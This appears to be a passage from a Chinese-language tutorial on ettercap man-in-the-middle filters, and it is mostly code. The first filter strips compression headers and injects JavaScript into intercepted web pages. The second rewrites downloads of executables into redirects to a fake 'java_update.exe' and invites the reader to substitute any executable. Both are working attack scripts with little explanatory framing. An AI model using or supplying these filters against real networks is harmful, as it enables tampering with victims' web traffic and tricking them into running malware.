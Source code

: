 ```bash
}
```



　　(3) JavaSproit注入:

　　技术有限,这里就简单的弹个窗吧 :(　使用的脚本是etter.filter.alert：

```bash
if (ip.proto == TCP && tcp.dst == 80) {
    if (search(DATA.data, "Accept-Encoding")) {
           replace("Accept-Encoding", "Accept-Rubbish!");
           msg("zapped Accept-Encoding!\n");
    }
}
if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "<body")) {
        replace("<head","<head<script type="text/javascript"alert('just for a test!');</script");
        replace("<HEAD","<HEAD<script type="text/javascript"alert('just for a test');</script");
        msg("Filter run!...Exploit code injected ok!\n");
    }
}
```



 （4）替换URL



```bash
# replace rmccurdy with your website
# replace the url with what ever exe you like

if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!");
      # note: replacement string is same length as original string
      msg("zapped Accept-Encoding!n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("keep-alive", "close" ");
   replace("Keep-Alive", "close" ");
}

if (ip.proto == TCP && search(DATA.data, ": application") ){
   # enable for logging log(DECODED.data, "/tmp/log.log");
   msg("found EXEn");
   # "Win32" is the first part of the exe example:
   # if the EXE started with "this program must be run in MSDOS mode" you could search for MSDOS etc ..
   if (search(DATA.data, "Win32")) {
      msg("doing nothingn");
   } else {
      replace("200 OK", "301 Moved Permanently Location: http://127.0.0.1/java_update.exe ");
      msg("redirect successn");
   }
}
```
